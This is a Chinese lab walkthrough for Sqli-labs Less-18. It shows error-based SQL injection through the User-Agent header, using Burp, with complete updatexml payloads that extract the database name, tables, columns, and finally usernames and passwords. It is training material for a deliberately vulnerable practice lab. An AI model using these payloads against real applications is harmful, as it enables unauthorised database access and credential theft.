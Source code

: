 
# Sqli-labs-Less-18
在进行第十八关的时候，也许会发生使用admin无法登陆的问题，这是因为在第十七关进行了密码重置<br />我们只需要将数据库重置一下就ok。<br />![](https://img-blog.csdnimg.cn/20200720095401635.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=TstR1&originHeight=269&originWidth=834&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
在第十八关<br />1.登录失败显示ip地址<br />2.登录成功显示ip地址和User-Agent<br />![](https://img-blog.csdnimg.cn/20200720095722466.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=h2SdG&originHeight=245&originWidth=818&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**在这里无论是在账户还是密码处都无法注入，因为进行了注释，但是当成功登录后前端页面回显了User-Agent信息，我们可以利用这个回显和报错注入来进行注入。**<br />![](https://img-blog.csdnimg.cn/2020072010061879.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=xcefl&originHeight=212&originWidth=963&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**在这里我们需要使用http头协议，使用burp进行抓包获取**<br />![](https://img-blog.csdnimg.cn/20200720101000955.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WxC6l&originHeight=340&originWidth=633&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**我们在此处进行修改，修改完后点击放包**<br />User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0 ' or updatexml(1,(concat(0x7e,(select database()),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720103659703.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=m9kec&originHeight=383&originWidth=1170&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

回显出当前数据库<br />![](https://img-blog.csdnimg.cn/2020072010352799.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XtDR1&originHeight=257&originWidth=1288&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询数据库**<br />' or updatexml(1,(concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720104110302.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WUEIa&originHeight=382&originWidth=1366&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/20200720104200517.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=tZJrJ&originHeight=276&originWidth=1220&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询表（security）**<br />' or updatexml(1,(concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720104934720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=YISaW&originHeight=370&originWidth=1376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/20200720105007922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XcIHF&originHeight=270&originWidth=1184&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询字段（为了方便只在burp中演示）**<br />' or updatexml(1,(concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720110319569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Bzvpt&originHeight=666&originWidth=1836&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询账户（username）**<br />' or updatexml(1,(concat(0x7e,(select username from security.users limit 0,1),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720105703285.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WCakk&originHeight=671&originWidth=1823&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询密码（password）**<br />' or updatexml(1,(concat(0x7e,(select password from security.users limit 0,1),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720110223225.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=LBNox&originHeight=545&originWidth=1738&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据**

